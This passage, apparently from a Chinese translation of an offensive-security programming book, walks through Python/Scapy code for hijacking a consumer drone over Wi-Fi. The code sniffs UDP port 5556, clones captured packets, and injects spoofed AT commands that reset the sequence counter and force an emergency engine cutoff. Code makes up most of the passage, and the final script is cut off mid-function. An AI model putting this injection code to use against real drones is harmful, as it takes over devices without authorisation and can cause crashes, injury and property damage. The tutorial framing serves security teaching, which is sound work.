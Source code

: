 ```py
    dport=uPkt.dport
    nPkt=UDP(sport=sport,dport=dport)
return nPkt 
```

接下来我们将添加一些新的方法到我们`interceptThread`类中，叫`injectCmd()`，这个函数复制当前包中的没一层，然后添加新的指令到 UDP 层。在创建新的数据包之后，它通过`sendp()`函数发送命令。

```py
def injectCmd(self, cmd):
    radio = dup.dupRadio(self.curPkt)
    dot11 = dup.dupDot11(self.curPkt)
    snap = dup.dupSNAP(self.curPkt)
    llc = dup.dupLLC(self.curPkt)
    ip = dup.dupIP(self.curPkt)
    udp = dup.dupUDP(self.curPkt)
    raw = Raw(load=cmd)
    injectPkt = radio / dot11 / llc / snap / ip / udp / raw
sendp(injectPkt) 
```

紧急降落是控制无人机的一个重要的指令。者控制无人机停止引擎随时掉到地上，为了执行这个命令，我们将使用当前的序列号并跳 100。接下来，我们发送命令`AT*COMWDG=$SEQ\r`，这个命令重置通讯的序列号，无人机将忽略先前的序命令(比如那些被合法的 iPhone 发布的命令)。最后，我们发送我们的紧急迫降命令`AT*REF=$SEQ, 290717952\r`。

```py
EMER = "290717952"
def emergencyland(self):
    spoofSeq = self.seq + 100
    watch = 'AT*COMWDG=%i\r'%spoofSeq
    toCmd = 'AT*REF=%i,%s\r'% (spoofSeq + 1, EMER)
    self.injectCmd(watch)
    self.injectCmd(toCmd) 
```

# 最终的攻击，紧急迫降无人机

让我们整合我们的代码并进行最后的攻击。首先，我们确保保存生成我们的数据包脚本并导入`dup.py`，接下来，我们检查我们的主要功能，开始拦截监听流量发现无人机，并提示我们发送紧急迫降指令。不到 70 行的代码，我们已经成功的拦截的无人机，好极了！感觉对我们的活动有点内疚。下一节中，我们将着重讨论如何识别在加密无线网络上的恶意活动。

```py
# coding=UTF-8
import threading
import dup
from scapy.all import *

conf.iface = 'mon0'
NAVPORT = 5556
LAND = '290717696'
EMER = '290717952'
TAKEOFF = '290718208'

class interceptThread(threading.Thread):
    def __init__(self):
        threading.Thread.__init__(self)
        self.curPkt = None
        self.seq = 0
        self.foundUAV = False
    def run(self):
        sniff(prn=self.interceptPkt, filter='udp port 5556')
    def interceptPkt(self, pkt):
        if self.foundUAV == False:
            print('[*] UAV Found.')
            self.foundUAV = True
            self.curPkt = pkt
            raw = pkt.sprintf('%Raw.load%')
```